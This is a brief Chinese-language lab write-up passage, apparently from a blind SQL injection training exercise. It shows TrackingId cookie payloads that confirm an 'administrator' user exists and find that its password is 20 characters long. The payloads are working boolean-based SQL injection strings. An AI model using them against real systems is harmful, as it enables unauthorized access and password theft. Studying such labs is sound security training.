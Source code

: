 判断是否存在`administrator`用户

```
TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users where username='administrator')='a
```

![image-20250501214624326](./img/image-20250501214624326.png)

判断密码长度,为20位

```
TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users where username='administrator' and length(password)>19)='a

TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users where username='administrator' and length(password)=20)='a
```

![image-20250501214903288](./img/image-20250501214903288.png)
